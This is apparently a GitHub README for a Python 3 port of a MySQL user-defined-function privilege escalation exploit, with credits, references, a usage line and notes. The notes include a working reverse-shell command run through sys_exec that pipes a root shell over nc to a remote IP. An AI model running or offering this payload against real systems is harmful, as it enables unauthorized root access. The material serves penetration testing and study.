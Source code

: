 # udf_root_py3

**Advisory**
All the binaries/scripts/code of udf_root_py3 should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own networks and/or with the network owner's permission.
* * *
**I cannot accept the credit for this really useful script. I have simply made a few changes to a script I found so that it is Python3 compatible.**
* * *

**Original:** [https://github.com/d7x/udf_root](https://github.com/d7x/udf_root)

Thank you d7x for this awesome script.
* * *

MySQL User-Defined function Dynamic Library Local Privilege Escalation

*** MySQL User-Defined (Linux) x32 / x86_64 sys_exec function local privilege escalation exploit ***

UDF lib shellcodes retrieved from metasploit (there are windows .dll libraries within metasploit as well so this could be easily ported to Windows)

Based on the famous raptor_udf.c by Marco Ivaldi (EDB ID: 1518)
CVE: N/A

References:

[https://dev.mysql.com/doc/refman/5.5/en/create-function-udf.html](https://dev.mysql.com/doc/refman/5.5/en/create-function-udf.html)

[https://www.exploit-db.com/exploits/1518](https://www.exploit-db.com/exploits/1518)

[https://www.exploit-db.com/papers/44139/](https://www.exploit-db.com/papers/44139/) - MySQL UDF Exploitation by Osanda Malith Jayathissa (@OsandaMalith)


* * *

**Notes**

One thing I noticed when I used this script - the root shell that it attempts to give you after completing was NOT a root shell. However if you exit out of the shell it puts you into and just execute code like:
```
select sys_exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 80 >/tmp/f');
```
Then this will execute as root.

To run the tool - use like:
```
python3 udf_root_py3.py --username root --password rootPassword
```
